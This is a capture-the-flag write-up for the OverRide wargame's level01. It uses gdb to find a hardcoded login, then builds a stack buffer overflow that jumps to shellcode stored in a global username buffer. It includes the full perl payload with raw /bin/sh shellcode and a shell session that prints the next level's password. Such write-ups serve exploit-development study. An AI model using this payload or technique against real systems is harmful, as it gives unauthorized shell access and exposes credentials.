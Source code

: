 # level01

The program reads username and password from stdin and always prints incorrect password.

## Step 1 Find the right username and password
```
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble verify_user_name" level01
[...]
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble verify_user_pass" level01
[...]
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
```
By disassembling these two verification function, we found the address of username and password.

```
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486a8" level01
0x80486a8:	 "dat_wil"
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486b0" level01
0x80486b0:	 "admin"
```
By inspecting the address of string literal, we got the username `dat_wil` and password `admin`.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
The username is correct, but we couldn't login.

## Step 2 Calculate the offset to overwrite `eip`
```
   0x080484d8 <+8>:		sub    esp,0x60
   [...]
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>

bottom of                                                            top of
memory                                                               memory
         esp+0x1c          esp+0x60
<------     [ local variables ][ padding ][ ebp ][ return addr ]
                  64 + 4            8        4          4
top of                                                            bottom of
stack                                                                 stack
```
The username buffer is a global variable, we cannot use it to overwrite eip. According to disassembly, the binary stores password to a buffer which begins at esp+0x1c, so we need `0x60 - 0x1c + 0x8 + 0x4 = 0x50 (80)` to reach the return address.

## Step 3 Find a place to inject shellcode
```
level01@OverRide:~$ objdump -j .bss -d level01
[...]
0804a040 <a_user_name>:
```
`0x0804a040` is the address of global variable `a_user_name` which stores input username, we concatenate [shellcode](http://shell-storm.org/shellcode/files/shellcode-219.php) after the username `dat_wil` then use the address `0x0804a040 + 0x7` to access it.

## Step 4 Build the payload
```
level01@OverRide:~$ perl -e 'print "dat_wil\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\n" . "A"x80 . pack("V", 0x804a047)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

$ whoami
level02
$ cat /home/users/$(whoami)/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
